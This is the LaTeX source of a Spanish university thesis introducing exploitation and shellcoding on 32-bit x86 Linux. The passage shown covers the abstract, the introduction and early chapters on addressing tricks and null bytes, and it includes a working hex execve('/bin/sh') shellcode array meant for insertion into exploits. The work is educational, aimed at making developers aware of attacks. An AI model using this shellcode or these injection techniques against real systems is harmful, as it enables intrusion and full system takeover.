\documentclass [titlepage, 12pt]{article}
\usepackage {geometry}
\usepackage[english,spanish]{babel}
\usepackage {fancyvrb}
\usepackage {tocbibind} 
\usepackage {amsmath ,amsthm , amssymb}
\usepackage {hyperref}
\usepackage{graphicx}	%% Librería necesaria para insertar gráficos
\usepackage{caption}	%% Librería necesaria para personalizar el título de las figuras y otras cosas
\usepackage{fancybox}	%% Librería necesaria para la sombra de las figuras
\usepackage{appendix}	%% Librería necesaria para generar apéndices bonitos
\usepackage{listings}	%% Libreria necesaria para generar codigo bonito 
\usepackage{color}
\definecolor{gray75}{gray}{.75}
\definecolor{gray97}{gray}{.97}
\definecolor{gray45}{gray}{.45}
%%Comandos necesarios para mostrar las figuras mejoradas
%\DeclareCaptionLabelSeparator{flecha}{\quad\ensuremath{\longrightarrow }\quad}
\DeclareCaptionLabelSeparator{flecha}{\ensuremath{ .}\quad}
\captionsetup{labelsep=flecha, justification=centering}
\newcommand{\topfigrule}{\hrule\vspace{4 pt}}
\newcommand{\botfigrule}{\hrule\vspace{4 pt}}
\renewcommand{\appendixname}{Ap\'endices}	%%Para que los apéndices se titulen como Apéndices y no Appendices 

% Parametros para definir el codigo fuente

\lstset{ 
language=C++,                % choose the language of the code
basicstyle=\footnotesize,       % the size of the fonts that are used for the code
numbers=left,                   % where to put the line-numbers
numberstyle=\footnotesize,      % the size of the fonts that are used for the line-numbers
stepnumber=1,                   % the step between two line-numbers. If it's 1 each line 
                               % will be numbered
numbersep=5pt,                  % how far the line-numbers are from the code
backgroundcolor=\color{gray75},  % choose the background color. You must add \usepackage{color}
showspaces=false,               % show spaces adding particular underscores
showstringspaces=false,         % underline spaces within strings
showtabs=false,                 % show tabs within strings adding particular underscores
frame=single,	                % adds a frame around the code
tabsize=2,	                % sets default tabsize to 2 spaces
captionpos=b,                   % sets the caption-position to bottom
breaklines=true,                % sets automatic line breaking
breakatwhitespace=false,        % sets if automatic breaks should only happen at whitespace
title=\lstname,                 % show the filename of files included with \lstinputlisting;
                                % also try caption instead of title
escapeinside={\%*}{*)},         % if you want to add a comment within your code
morekeywords={*,...}            % if you want to add more keywords to the set
}
\lstset{ 
language=[x86masm]Assembler,                % choose the language of the code
basicstyle=\footnotesize,       % the size of the fonts that are used for the code
numbers=left,                   % where to put the line-numbers
numberstyle=\footnotesize,      % the size of the fonts that are used for the line-numbers
stepnumber=1,                   % the step between two line-numbers. If it's 1 each line 
                                % will be numbered
numbersep=5pt,                  % how far the line-numbers are from the code
backgroundcolor=\color{gray75},  % choose the background color. You must add \usepackage{color}
showspaces=false,               % show spaces adding particular underscores
showstringspaces=false,         % underline spaces within strings
showtabs=false,                 % show tabs within strings adding particular underscores
frame=single,	                % adds a frame around the code
tabsize=2,	                % sets default tabsize to 2 spaces
captionpos=b,                   % sets the caption-position to bottom
breaklines=true,                % sets automatic line breaking
breakatwhitespace=false,        % sets if automatic breaks should only happen at whitespace
title=\lstname,                 % show the filename of files included with \lstinputlisting;
                                % also try caption instead of title
escapeinside={\%*}{*)},         % if you want to add a comment within your code
morekeywords={*,...}            % if you want to add more keywords to the set
}
\lstset{
	 language=bash, 
	 frame=Ltb,
     framerule=0pt,
     aboveskip=0.5cm,
     framextopmargin=3pt,
     framexbottommargin=3pt,
     framexleftmargin=0.4cm,
     framesep=0pt,
     rulesep=.4pt,
     backgroundcolor=\color{gray97},
     rulesepcolor=\color{black},
     %
     stringstyle=\ttfamily,
     showstringspaces = false,
     basicstyle=\small\ttfamily,
     commentstyle=\color{gray45},
     keywordstyle=\bfseries,
     %
     numbers=left,
     numbersep=15pt,
     numberstyle=\tiny,
     numberfirstline = false,
     breaklines=true,
}
\renewcommand{\lstlistingname}{C\'odigo}

% minimizar fragmentado de listados
\lstnewenvironment{listing}[1][]
   {\lstset{#1}\pagebreak[0]}{\pagebreak[0]}
   
\lstdefinestyle{consola} {
	basicstyle=\scriptsize\bf\ttfamily,
	backgroundcolor=\color{gray75},
}

\title {Introducci\'on a la explotaci\'on de software en sistemas Linux}
\author {por Albert L\'opez Fern\'andez \\ \url{newlog [at] overflowedminds [dot] net}}
\date {2009 - Oct -12}
\addtolength{\textheight}{2cm}

\begin{document}

\renewcommand{\listtablename}{\'Indice de tablas}
\renewcommand{\tablename}{Tabla}
\renewcommand{\refname}{Bibliograf\'ia}
\renewcommand{\abstractname}{Abstract}

\maketitle
\newpage

\begin{abstract}
El objetivo de esta investigaci\'on es introducir al lector en el mundo de la explotaci\'on de software. Las t\'ecnicas de explotaci\'on de software se pueden dividir en dos conceptos muy generales. \\
\\
El primero de ellos es el $shellcoding$. El desarrollo de $shellcodes$ se basa en la programaci\'on en ensamblador de ciertas rutinas que permitan realizar las acciones que un programador necesite una vez se haya vulnerado el software investigado. La programaci\'on de $shellcodes$ es bastante compleja ya que cada una de las rutinas programadas debe cumplir ciertas restricciones y, debido a estas restricciones, el programador no puede utilizar todas las funcionalidades que proporciona el lenguaje ensamblador. \\
El segundo concepto tratado es el $exploiting$. El $exploiting$ se basa en descubrir los errores que ha realizado un programador en el momento de escribir el c\'odigo fuente de una aplicaci\'on para poder vulnerar la seguridad de un sistema y tener, en el mejor de los casos, acceso total, con los mayores privilegios, al sistema vulnerado.\bigskip

El primer concepto tratado en esta investigaci\'on es el $shellcoding$. Elegir este orden permite al lector aprender los conceptos b\'asicos de la programaci\'on a bajo nivel enfocada a sistemas. De este modo, la introducci\'on al $exploiting$ se simplifica bastante.
\end{abstract}

\pagebreak

\section*{Resumen}
\thispagestyle{empty}

El tema elegido para el desarrollo de esta investigaci\'on ha sido el $exploiting$. El $exploiting$ se basa en encontrar un error de programaci\'on o de dise\~no en un software cualquiera que permita al investigador modificar la l\'ogica de ejecuci\'on del programa en cuesti\'on. Cuando se realiza la acci\'on de explotar un ejecutable se puede desembocar en tres situaciones diferentes. \\
La primera de ellas es en la que el software explotado termina su ejecuci\'on. Aunque esta consecuencia pueda parecer trivial, no lo es. Para grandes multinacionales la parada de una de sus aplicaciones de producci\'on puede suponer una p\'erdida de cientos o miles de euros. Por ejemplo, si un empresa de compras por internet dejara de funcionar durante una horas, sus usuarios no podr\'ian realizar sus compras y eso supondr\'ia una gran p\'erdida para la empresa. Adem\'as, claro est\'a, de la p\'erdida de prestigio inherente a la vulneraci\'on del sistema de seguridad de la empresa.\\
La segunda situaci\'on es en la que el software explotado altera su flujo de ejecuci\'on de tal manera que act\'ua de un modo distinto al que deber\'ia. En esta situaci\'on el software explotado ejecutar\'a instrucciones de su c\'odigo fuente, sin embargo, lo har\'a cuando en teor\'ia no deber\'ia hacerlo.\\
La \'ultima situaci\'on, y la m\'as peligrosa, es aquella en la que el software explotado ejecuta instrucciones ajenas a su c\'odigo fuente. Estas instrucciones las inyecta el investigador una vez a vulnerado el software, y su prop\'osito puede ser cualquiera. \bigskip

Es en esta tercera situaci\'on en la que entra el concepto de $shellcoding$. El $shellcoding$ se basa en la programaci\'on de las rutinas que se le inyectar\'an al programa vulnerable para que \'este las ejecute. La ventaja de realizar esta acci\'on es que se consigue que un programa de confianza, instalado en un sistema, ejecute instrucciones ajenas a su c\'odigo fuente. Adem\'as de conseguir ejecutar cualquier tipo de rutina, estas rutinas se ejecutan con los privilegios atribuidos al software explotado. De este modo, si un programa vulnerable se est\'a ejecutando con permisos de $root$, el investigador es capaz de ejecutar cualquier tipo de rutina con los mismos privilegios. De este modo se puede conseguir el control total del sistema en el que se esta ejecutando la aplicaci\'on vulnerable. \bigskip

Uno de los motivos que me llev\'o a la realizaci\'on de esta investigaci\'on fue que hoy en d\'ia la mayor\'ia de empresas o particulares que desarrollan software no son conscientes de los aspectos relativos a su explotaci\'on. La ejecuci\'on en un sistema de una \'unica aplicaci\'on vulnerable entre otros cientos o miles de aplicaciones no vulnerables hace que todo un sistema se convierta en un sistema inseguro. Debido a que actualmente la mayor\'ia de tareas que realizamos las realizamos con un ordenador al frente, los usuarios no se pueden permitir el lujo de utilizar sistemas inseguros donde la integridad y privacidad de sus datos pueda ser vulnerada. Esta investigaci\'on intenta ser un ejercicio de divulgaci\'on para que los desarrolladores de software sean conscientes de estos aspectos.


\pagebreak
\setcounter{page}{1}
\tableofcontents
\newpage

\listoftables 

\listoffigures

\pagebreak

\section {Introducci\'on}

\bigskip
Este trabajo de final de carrera explica algunos de los m\'etodos utilizados para explotar software. La explotaci\'on de software se basa en encontrar alg\'un tipo de vulnerabilidad en un programa para poder modificar su comportamiento. Esta modificaci\'on puede desembocar en la ejecuci\'on de c\'odigo totalmente ajeno al software explotado, en el cierre del software explotado o en la alteraci\'on de su l\'ogica de ejecuci\'on. \bigskip

Hoy en d\'ia, la sociedad vive rodeada de tecnolog\'ia, la sociedad depende de la tecnolog\'ia y, a su vez, la tecnolog\'ia depende completamente del software que se le ha programado. Leemos nuestra correspondencia con el ordenador, nos comunicamos con nuestros m\'oviles, compramos por internet, nuestros hogares y veh\'iculos est\'an protegidos por sistemas electr\'onicos, las comunicaciones mundiales dependen de sistemas inform\'aticos, los sensores de aviones y barcos funcionan gracias a su software y centrales t\'ermicas o nucleares dependen de los sistemas de control y medici\'on que se les ha programado. Es por esta raz\'on por la que el software desarrollado por empresas y particulares deber\'ia basarse en un principio de seguridad total. \bigskip

Actualmente, el software desarrollado no puede permitirse el lujo de s\'olo ser funcional o de tener una interfaz gr\'afica impresionante. Cuando se trata de software cr\'itico -y actualmente la mayor\'ia de software es cr\'itico - es mucho peor tener software funcional e inseguro que, directamente, no tener el software. Acaso alguien tendr\'ia el valor suficiente como para subir a un avi\'on cuando se es consciente de que su software de control es vulnerable y de que cualquier atacante podr\'ia alterar su rumbo de vuelo? Acaso no es mejor que cien personas no puedan coger un vuelo a que cien personas acaben en el fondo del atl\'antico?\\
Es por esta raz\'on por la que se ha desarrollado este documento. Para acercar de un modo sencillo los conceptos de seguridad a nivel de aplicaci\'on. Este documento intenta realizar una introducci\'on al an\'alisis de vulnerabilidades y su explotaci\'on. Estos conceptos se explican del modo m\'as simple posible para que no s\'olo los m\'as experimentados puedan entenderlo. Se trata de que sean asequibles para los programadores m\'as noveles, pues son estos los que programar\'an el software del futuro.\bigskip

Ser\'ia plausible llegar a la conclusi\'on de que para aprender a desarrollar software seguro no es necesario conocer los ataques a los que dicho software est\'a sometido. Sin embargo, llegar a esta conclusi\'on no ser\'ia m\'as que un error. Si un programador no conociera la metodolog\'ia utilizada por los atacantes jam\'as ser\'ia capaz de anticiparse a sus acciones y siempre ir\'ia un paso por detr\'as. Jam\'as podr\'ia idear un nuevo sistema de defensa sin conocer todos los detalles de un ataque. Si a un programador s\'olo se le ense\~nara qu\'e funciones son vulnerables y cu\'ales no, c\'omo ser\'ia capaz de programar sus propias funciones sin caer en los mismos errores que sus antecesores? Por esta raz\'on este documento explica con m\'aximo detalle cuales son algunos de los conceptos y t\'ecnicas utilizados para vulnerar software. \bigskip

En el panorama actual de desarrollo de software parece ser que el dise\~no del software y la aplicaci\'on de metodolog\'ias de desarrollo de software tienen mucha m\'as valoraci\'on que la programaci\'on del propio software. No se niega que el dise\~no del software debe realizarse de manera concisa y exhaustiva, teniendo en cuenta cada uno de sus aspectos, sin embargo, su programaci\'on debe ser igual de concisa y exhaustiva. Es por esta raz\'on por la que un gran dise\~no fracasar\'a sin una gran programaci\'on. Pudiera pensarse que cualquier programador con una m\'inima experiencia o un ingeniero reci\'en licenciado tiene los conocimientos necesarios para desarrollar software fiable, sin embargo, este pensamiento no puede distar m\'as de la realidad y aun menos se puede decir que puedan desarrollar software seguro. Para ser capaz de desarrollar software seguro es necesaria la destreza de un ingeniero con una gran formaci\'on y habilidad. Sin embargo, la mayor\'ia de empresas contratan programadores noveles a los que les pagan una miseria y despu\'es pretenden que su software sea competitivo. Esto es una insensatez y si documentos como el presente ayudan a cambiar el modo de operar de aquellos que deben dirigir o dise\~nar proyectos, el desarrollo de esta investigaci\'on ya habr\'a cumplido uno de sus cometidos.\bigskip

Debido a que esta investigaci\'on no est\'a enfocada al desarrollo de ning\'un tipo de software concreto, se hace imposible realizar una clara separaci\'on del contenido te\'orico y el contenido pr\'actico. La metodolog\'ia seguida al desarrollar este trabajo se ha basado en presentar unos conceptos te\'oricos y, acto seguido, demostrarlos mediante programas propios o mediante herramientas disponibles para el sistema con el que se trabaja.\bigskip

Aunque esta investigaci\'on trata muchos conceptos, el trabajo se divide en dos apartados muy distintos entre si. El primero que se desarrolla es el conocido como $shellcoding$. El $shellcoding$ es el arte de programar ciertas rutinas en ensamblador para inyectarlas directamente en memoria en tiempo de ejecuci\'on. El $shellcoding$ es un arte porqu\'e cada situaci\'on requiere un tipo de rutina espec\'ifica y, en muchos casos, estas rutinas han de cumplir ciertas restricciones. Realizar un buen $shellcode$ significa dominar al m\'aximo el lenguaje ensamblador para conseguir realizar operaciones con un c\'odigo que ocupe el menos espacio posible. Los $shellcodes$ acostumbran a ocupar pocos $bytes$ aun cuando un programa que realice la misma tarea pueda ocupar cientos o miles de $bytes$.\\
El segundo apartado de este trabajo es el $exploiting$. Al principio de esta investigaci\'on ya se ha dado una breve explicaci\'on de lo que significa explotar software, que es lo mismo que el $exploiting$. Lo que no se ha comentado es que una vez el software se ha explotado correctamente, ser\'a el $shellcode$ que se ha programado con anterioridad el que se ejecutar\'a para demostrar que el software es vulnerable. Cuando se explota cualquier tipo de software y se es capaz de ejecutar el $shellcode$ de nuestra elecci\'on se puede decir que el software explotado est\'a en la peor situaci\'on posible.\\
Comentar que el cap\'itulo de $shellcoding$ se explica antes que el cap\'itulo de $exploiting$ para ir introduciendo los conceptos de sistema a bajo nivel. El hecho de elegir este orden permite introducirse en el mundo del $exploiting$ de un modo m\'as sencillo. \bigskip

A continuaci\'on se da una breve descripci\'on sobre aquellos cap\'itulos de esta investigaci\'on que desarrollan conceptos intr\'insecos al desarrollo de $shellcodes$ y $exploits$:\\
\\
En el Cap\'itulo 2 se hace una peque\~na introducci\'on a los conceptos m\'as b\'asicos sobre el $shellcoding$.\\
En el Cap\'itulo 3 se presentan algunos de los problemas con los que uno se puede encontrar al desarrollar $shellcodes$. A su vez, para cada problema se plantean una o varias soluciones y se estudia cual de ellas es la mejor.\\
En el Cap\'itulo 4 se detalla el modo de realizar llamadas al sistema en ensamblador.\\
En el Cap\'itulo 5 se comentan algunas de las optimizaciones que se le puede implementar al c\'odigo fuente de los $shellcodes$.\\
En el Cap\'itulo 6 se presentan algunas de las implementaciones m\'as comunes en el momento de desarrollar $shellcodes$.\\
En el Cap\'itulo 7 se explican algunas implementaciones de $shellcodes$ que permiten optimizar a\'un m\'as los $shellcodes$ o saltarse ciertas medidas de seguridad.\\
En el Cap\'itulo 8 se hace una breve introducci\'on al concepto de $exploiting$ y se comentan algunas de sus consecuencias.\\
En el Cap\'itulo 9 se introduce el concepto de desbordamiento de b\'ufers en la pila. Se detalla como se construye un marco de pila real, c\'omo sucede un desbordamiento y se explican algunas de las t\'ecnicas utilizadas para aprovecharse de estos desbordamientos.\bigskip

Para la realizaci\'on de esta investigaci\'on se ha trabajado con la distribuci\'on de $Linux$ $Ubuntu$ en su versi\'on 10.10. El c\'odigo fuente escrito est\'a pensado para ejecutarse en arquitecturas $Intel$ x86 de 32 bits.



\pagebreak

\section {Shellcoding}
Se llama $shellcode$ al c\'odigo inyectado a un programa en ejecuci\'on cuando se ha de explotar una vulnerabilidad\footnote{Una vulnerabilidad es un error de programaci\'on que afecta directamente a la integridad del sistema en el que se est\'a ejecutando dicho programa.}. El modo de conseguir esta inyecci\'on de c\'odigo depende de cada situaci\'on. En cualquier caso, se trata de aprovechar los errores que pueda contener el c\'odigo del programa objetivo. Algunas de las vulnerabilidades m\'as comunes son la siguientes: $stack$ $overflows$, $integer$ $overflows$, $heap$ $overflows$, $format$ $string$ $corruptions$ \ldots \bigskip

Los $shellcodes$\footnote{Dado que la palabra $shellcode$ proviene del ingl\'es, no tenemos ninguna refer\'encia sobre su g\'enero. Por esta raz\'on, en est\'e art\'iculo he decido tratar esta palabra como si su g\'enero fuera masculino. Com\'unmente, en \'ambitos de habla hispana, esta palabra es tratada como si su g\'enero fuera femenino, sin embargo, creo que dicha precisi\'on es incorrecta, pues la palabra $shellcode$ hace referencia a un tipo de c\'odigo y, la palabra c\'odigo es de g\'enero masculino.} est\'an programados en lenguaje ensamblador\footnote {En este art\'iculo, los $shellcodes$ ser\'an programados para arquitecturas Intel x86.}. El ejecutable creado a partir de su c\'odigo tiene que ser \'optimo en cuanto a velocidad y dimensi\'on. Como veremos m\'as adelante lo que buscaremos al programar $shellcodes$, ser\'a que su ejecutable ocupe el m\'inimo espacio posible. En la optimizaci\'on del $shellcode$ es d\'onde reside la genialidad del programador. \bigskip

Un $shellcode$ no es exactamente un programa ejecutable, por tanto, no se podr\'a declarar la disposici\'on de los datos en memoria y, a\'un menos, utilizar otros segmentos de memoria para nues\-tros prop\'ositos. Las instrucciones deben ser independientes y tienen que estar programadas de tal manera que permitan tomar el control del procesador en cualquier momento. Este tipo de c\'odigos son com\'unmente denominados como c\'odigos independientes de la posici\'on. \bigskip

Cuando el c\'odigo de un $shellcode$ se adjunta al c\'odigo de un $exploit$\footnote {Se llama $exploit$ al c\'odigo que explota alg\'un tipo de vulnerabilidad.}, \'este no se inserta tal y como se ha programado, sino que se ha de codificar en hexadecimal y almacenarlo en un $array$ del tipo $char$.\\
Un ejemplo de $shellcode$ listo para insertar en un $exploit$ es el que podemos encontrar en el C\'odigo ~\ref{fig:shellcodeEjemplo}.\bigskip
\lstset{language=C++,caption=$Shellcode$ en hexadecimal de ejemplo,label=fig:shellcodeEjemplo}
\begin{lstlisting}
		char shellcode [] = "\xb0\x0b"
                    "\x99"
                    "\x52"
                    "\x68\x2f\x2f\x73\x68"
                    "\x68\x2f\x62\x69\x6e"
                    "\x89\xe3"
                    "\x52"
                    "\x53"
                    "\x89\xe1"
                    "\xcd\x80";
\end{lstlisting}

\newpage
\section{Conceptos b\'asicos sobre el shellcoding}
Como se ha comentado en el apartado anterior, el c\'odigo de un $shellcode$ debe ser independiente de la posici\'on y, adem\'as de cumplir esta restricci\'on, los $shellcodes$ acostumbran a ser inyectados en memoria a partir de funciones orientadas al trabajo con cadenas. Estas dos caracter\'isticas son las que introducen los problemas m\'as comunes a la hora de desarrollar un $shellcode$. Estos problemas son conocidos con los nombres de $Addressing$ $Problem$\footnote{Problema de direccionamiento.} y $Null-Byte$ $Problem$\footnote{Problema del $byte$ nulo.}. \bigskip

En los siguientes cap\'itulos, se mostrar\'an diferentes c\'odigos fuentes preparados para que el lector pueda compilarlos y ejecutarlos en un ordenador actual. Sin embargo, debido a que se est\'a programando a muy bajo nivel se debe ser consciente de que al compilar el c\'odigo fuente de un modo u otro, \'este se situar\'a en diferentes posiciones de memoria. Actualmente, los diferentes sistemas operativos del mercado implementan varias medidas de seguridad para intentar impedir la explotaci\'on del $software$ mal programado. Tal y como se ha dicho, estas medidas de seguridad no son m\'as que un intento por securizar las aplicaciones que se ejecutan en el sistema operativo, sin embargo, por el momento, no se ha encontrado ning\'un m\'etodo gen\'erico que permita a los sistemas operativos hacer que las aplicaciones que se ejecutan en \'el no sean explotables.\\
Debido a que el objetivo de esta investigaci\'on no es el de c\'omo vulnerar dichos mecanismos de seguridad, en el Ap\'endice II se explica el modo de desactivarlos. Adem\'as, en dicho ap\'endice se explica tambi\'en c\'omo compilar los c\'odigos mostrados a continuaci\'on y las implicaciones de compilar de un modo u otro.

\subsection{The Addressing Problem}
Dado que los $shellcodes$ se inyectan a programas que est\'an en ejecuci\'on y se almacenan en la memoria de manera din\'amica su c\'odigo debe ser autocontenido y, por tanto, debemos saber la direcci\'on de memoria de algunos de los elementos que usaremos en nuestro $shellcode$.\\
Para obtener las direcci\'ones de memoria necesarias para el correcto funcionamiento de un $shellcode$ disponemos de dos m\'etodos. El primero se basa en localizar la informaci\'on en la pila -$stack$- a partir de las instrucciones $jmp$ y $call$. Con el segundo m\'etodo se ha de insertar la informaci\'on en la pila y despu\'es almacenar el contenido del registro $esp$\footnote{El $Extended$ $Stack$ $Pointer$ ($ESP$) es el registro donde se almacena la posici\'on en memoria del \'ultimo dato introducido en la pila}.

\subsubsection{The JMP/CALL Trick}
A simple vista, este m\'etodo puede parecer complejo, sin embargo, una vez se entiende como funciona internamente la intrucci\'on $call$, desaparece cualquier tipo de complicaci\'on. \\
En la Figura \ref{fig:llamadaFuncion}  se puede ver un gr\'afico que ejemplifica, el funcionamiento de dicha instrucci\'on.

\begin{figure}[!hbp]
	\caption{Llamada a una funci\'on}
    \label{fig:llamadaFuncion}  
    \centering
    \addtolength{\abovecaptionskip}{-12pt}    
    \shadowbox{ \begin{minipage}{6.2 in}	    
        \centering
        
\includegraphics[height=3.0in]{JmpTrick/Figura4}                        
    \end{minipage} }  
\end{figure}


A grandes rasgos, la instrucci\'on $call$ es el equivalente a llamar a una funci\'on en el lenguaje de programaci\'on c.\\
Como se puede ver en la Figura \ref{fig:llamadaFuncion}, cuando se ejecuta la instrucci\'on $call$, en la pila se inserta la direcci\'on de memoria por la cual tendr\'ia que continuar el flujo del programa una vez se retornara de la funci\'on llamada por la instrucci\'on $call$. As\'i pues, se concluye que justo en el momento de ejecutar la instrucci\'on $call$, en la parte superior de la pila tenemos almacenada la direcci\'on de retorno de la funci\'on.\\
El C\'odigo \ref{fig:jmpcall} ejemplifica c\'omo podr\'iamos obtener la direcci\'on de memoria donde se almacena una cadena cualquiera.

\lstset{language=[x86masm]Assembler,caption=Implementaci\'on del jmp/call trick,label=fig:jmpcall}
\begin{lstlisting}
		BITS 32
		jmp short
		code:
		pop esi
		short:
		call code
		db texto
\end{lstlisting}
En la primera l\'inea salta a la etiqueta $data$.\\
En la segunda l\'inea tenemos la estiqueta $code$.\\
En la tercera l\'inea almacenamos lo que hay en la parte superior de la pila en el registro $esi$.\\
En la cuarta l\'inea tenemos la etiqueta $short$.\\
En la quinta l\'inea llamamos a la funci\'on $code$, con lo que en la pila se inserta la direcci\'on de retorno de la funci\'on $code$. Y es en la tercera l\'inea d\'onde almacenamos dicha direcci\'on.\\
En la sexta l\'inea tenemos el texto del cual queremos saber donde estar\'a ubicado en memoria en tiempo de ejecuci\'on.\\
Para almacenar la direcci\'on donde se ubica la cadena se ha tenido que utilizar esta estructura en el c\'odigo para evitar insertar $bytes$ nulos, pero de esto se hablar\'a en los pr\'oximos apartados. Ahora s\'olo ha de quedar claro que utilizando este truco podemos averiguar donde se ubican las cadenas en memoria.\pagebreak

\subsubsection{Pushing the Arguments}
Aunque el $JMP/CALL$ $Trick$ es un m\'etodo funcional, el m\'etodo que se presenta en este apartado permite reducir substancialmente el tama\~no de un $shellcode$. Para llevar a cabo esta t\'ecnica no es necesario recurrir a complicadas estructuras de c\'odigo como con el truco del $JMP/CALL$, sin embargo, para entenderla se necesita tener dos conceptos claros.\\
El primero de ellos es que dado que estamos trabajando con la pila en una arquitectura $little$ $endian$\footnote{En http://es.wikipedia.org/wiki/Little-endian se puede encontrar una buena explicaci\'on sobre el tipo de direccionamiento en cada arquitectura.} los datos que se insertan en memoria y son de m\'as de un $byte$ se introducen en el orden inverso al escrito. La Figura \ref{fig:littleEndian} clarifica la explicaci\'on.

\begin{figure}[!hbp]
	\caption{Direccionamiento Little Endian}
    \label{fig:littleEndian}  
    \centering
    \addtolength{\abovecaptionskip}{-12pt}    
    \shadowbox{ \begin{minipage}{4.5 in}	    
        \centering
        
\includegraphics[height=2.5in]{PushingArguments/Figura1}                      1  
    \end{minipage} }  
\end{figure}


El segundo concepto que se ha de tener claro es que para a\~nadir una cadena a la pila se debe codificar en hexadecimal\footnote{En http://www.ascii.cl/es podemos encontrar las equivalencias necesarias.} y en bloques de 32 o 64 bits\footnote{Esto se debe al tipo de arquitectura con el que se trabaje. En este ensayo se trabajar\'a con una arquitectura de 32 bits.}. \bigskip

En un caso real, si se quisiera saber en qu\'e direcci\'on de memoria se almacena la cadena ''Morning!'' usando el m\'etodo $pushing$ $the$ $arguments$ se podr\'ia utilizar un c\'odigo tal que el \ref{fig:PushingArguments}.

\lstset{language=[x86masm]Assembler,caption=M\'etodo $Pushing$ $the$ $arguments$,label=fig:PushingArguments}
\begin{lstlisting}
		BITS 32
		xor eax, eax
		push byte al
		push 0x696e6721
		push 0x6e726f4d
		mov esi, esp
\end{lstlisting}

En la segunda l\'inea se pone a cero el registro $eax$. Se usa este m\'etodo, en vez de utilizar la instrucci\'on $mov$ ya que, c\'omo veremos en los pr\'oximos apartados, gracias a la instrucci\'on $xor$ el $shellcode$ es un $byte$ m\'as peque\~no. En la tercera l\'inea se inserta en la pila un $byte$ nulo, el $byte$ de menos peso del registro $eax$. Esto lo hacemos para que la cadena ''Morning!'' acabe con un $byte$ nulo. En las l\'ineas 3 y 4 insertamos en la pila la cadena ''Morning!''. Las equivalencias se encuentran en la Tabla \ref{tab:equivalencias}.
%% Decir que hago el \begin{center} en vez del \centering porque sino me escribe una puta l\'inea enganchada al cuadro
\begin{table}[!htp]
	\topfigrule
   	\addtolength{\abovecaptionskip}{-12pt}   	
   	\caption{Equivalencias ASCII}
   	\label{tab:equivalencias}   		
	\begin{center}
	\begin{tabular}{||l | c | r||}
		\hline
		\hline
		Hexadecimal & ASCII \\
		\hline
		0x69 & i\\
		\hline
		0x6e & n\\
		\hline
		0x67 & g\\
		\hline
		0x21 & !\\
		\hline
		0x6e & n\\
		\hline
		0x72 & r\\
		\hline
		0x6f & o\\
		\hline
		0x4d & M\\
		\hline
	\end{tabular} %%\botfigrule
	\end{center}
\end{table}

En la \'ultima l\'inea se almacena en $esi$ el valor del registro $esp$, por tanto, $esi$ contiene la direcci\'on de memoria donde est\'a ubicado el principio de la cadena.\\
Despu\'es de ejecutar el c\'odigo el estado de la pila ser\'ia parecido al de la Figura \ref{fig:esp}.

\begin{figure}[!hbp]
	\caption{Registro ESP}
    \label{fig:esp}  
    \centering
    \addtolength{\abovecaptionskip}{-12pt}    
    \shadowbox{ \begin{minipage}{2.5 in}	    
        \centering
        
\includegraphics[height=2.0in]{PushingArguments/Figura2}                        
    \end{minipage} }  
\end{figure}


\subsection{The Null Byte Problem}
Los $shellcode$ acostumbran a ser inyectados en memoria a partir de funciones orientadas a cadenas -strcpy(), sprintf()\ldots-. Si estas funciones encuentran un $byte$ nulo en medio del c\'odigo, dan el $shellcode$ por finalizado con lo que \'este no se inyecta en memoria por completo.\bigskip

